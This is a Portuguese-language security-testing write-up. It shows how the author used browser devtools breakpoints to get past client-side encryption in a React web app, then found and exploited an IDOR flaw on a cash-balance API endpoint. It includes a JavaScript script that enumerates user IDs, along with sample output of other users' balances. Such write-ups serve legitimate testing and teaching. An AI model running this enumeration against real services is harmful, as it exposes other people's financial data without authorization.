## 0x00 contexto
- em um teste recente, acabei me deparando com uma algo relativamente raro nas minhas análises de aplicações web. ao analisar as requests no burp suite, todo o tráfego com a api da aplicação era criptografado! (alguns request headers foram omitidos)
    
- curiosamente, naquela mesma semana, eu havia visto uma excelente talk da Bug Bounty Argentina na EkoParty 2025, do [Samuel Orellana](https://hackerone.com/samux), chamada [Breaking Client-Side Encryption for Bounties](https://www.youtube.com/watch?v=-f4pg3dr9Wo), onde ele abordou alguns métodos pra bypassar métodos de criptografia em client-side, baseado em cenários que ele já enfrentou em programas de bug bounty. todas as PoC's que ele mostrou na palestra foram todas usando o framework `react.js`.
- com isso, voltei ao browser e dei uma olhada no wappalyzer pra checar quais tecnologias eram utilizadas pela aplicação e assim traçar meu workflow.
    
- como podemos ver, assim como na talk, o framework `react.js` é utilizado no front-end. sabendo disso, abri o devtools pra começar o code review, visto que por padrão o react armazena toda a lógica do front-end da aplicação em client-side, o que facilita pra fazer o debugging do front-end da aplicação em runtime, nos ajudando a entender no detalhe como os nossos dados são trafegados pro back-end e provavelmente a lógica da criptografia implementada estaria ali.

## 0x01: code review e debugging
- abrindo as devtools e pesquisando por palavras chave como `crypto`, `key`, `encrypt`, `decrypt`, etc. rapidamente podemos encontrar o core da implementação de uma client-side encryption (CSE).
    
- abrindo o arquivo, encontramos a função `encryptData()`, que realiza a criptografia de dados
    
- e a função `decryptData()`, realiza a descriptografia
    
- sabendo disso, podemos pesquisar por referências à essas duas funções no contexto do tratamento de requests e responses, para assim podermos interceptar os dados que elas recebem e poder interagir com a api em plaintext para assim validar a existência de vulnerabilidades em server-side.
    
- com ajuda dos comentários, encontramos o código que intercepta as requests para criptografá-las e as responses para descriptografá-las. mas o que nos interessa são apenas esses trechos:
    ```js
    // Verificando se os dados são uma imagem ou se é um envio multipart (como arquivos)
    if (config.data && !config.headers['Content-Type']?.includes('multipart/form-data')) {
      config.data = { payload: encryptData(JSON.stringify(config.data)) };
    }
    return config;

    if (contentType.includes('application/json') && response.data?.payload) {
      try {
        response.data = decryptData(response.data.payload);
      } catch (error) {
        console.error('Erro ao descriptografar:', error);
      }
    }

    return response;
    ```
- com um simples code review, comprendemos que `config` é a nossa request completa, `config.data` é o body da nossa request, `response` é a nossa request completa e `response.data` é o body da nossa request. sabendo disso, podemos colocar breakpoints nas linhas onde são chamadas as funções `encryptData()` e `decryptData()`, debuggando a aplicação e modificando as requests e responses da forma que desejarmos.
- após criar um usuario, podemos ir até a nossa dashboard e dar um reload na página:
    
- pelo console das devtools, conseguimos modificar as propriedades dessa request
    
- capturando a response:
    

## 0x02: broken object level authorization
- uma request que me chamou a atenção no fluxo de reload da dashboard foi uma para `/api/cash_value/[id]`, que retornava quanto dinheiro eu havia injetado na plataforma, principalmente após a captura da response de `/api/profile`, que revelou que o id do meu usuario era exatamente aquele mesmo id.
    
- modificando a url da request para `/api/cash_value/32`, confirmamos a existencia de um idor/bola, o que nos permite descobrir quanto cada usuário injetou na plataforma.
    
- sabendo disso, decidi criar um script para percorrer um range de id's e retornar a quantia total de dinheiro investido na plataforma.
    ```js
    async function fetchCash(a, b) {

        const findings = []
        
        for (let id = a; id <= b; id++) {
            try {
                const response = await fetch(`/api/cash_value/${id}`)
                if (response.status === 200) {
                    const json = await response.json()
                    if (json.payload) {
                        const decrypted = window.hookDecrypt(json.payload);
                        console.log(`%c[ID ${id}] found!:`, "color: #00ff00; font-weight: bold;", decrypted)
                        findings.push({ id, data: decrypted })
                    }
                } else {
                    console.warn(`[ID ${id}] Status: ${response.status}`)
                }
            } catch (err) {
                console.error(err);
            }
        }
        
        console.table(findings);
    }
    ```
- para executar essee código, é necessário fazer colocar um breakpoint em um momento que a função decryptData() esteja disponível no DOM, para assim fazer o seu hook: `window.decryptData = hookDecrypt`. feito isso, conseguimos gerar um JSON com todas a informação que obtemos:
    ```json
    [
    {
        "id": 8,
        "cash": "585,00"
    },
    {
        "id": 32,
        "cash": "9.855,90"
    },
    {
        "id": 34,
        "cash": "209,00"
    },
    {
        "id": 35,
        "cash": "0,00"
    },
    {
        "id": 51,
        "cash": "953,70"
    },
    {
        "id": 61,
        "cash": "968,00"
    },
    {
        "id": 62,
        "cash": "1.319,80"
    },
    {
        "id": 64,
        "cash": "0,00"
    },
    {
        "id": 65,
        "cash": "0,00"
    },
    {
        "id": 66,
        "cash": "20,40"
    },
    {
        "id": 67,
        "cash": "95,00"
    },
    {
        "id": 68,
        "cash": "241,00"
    }
    ]
    ```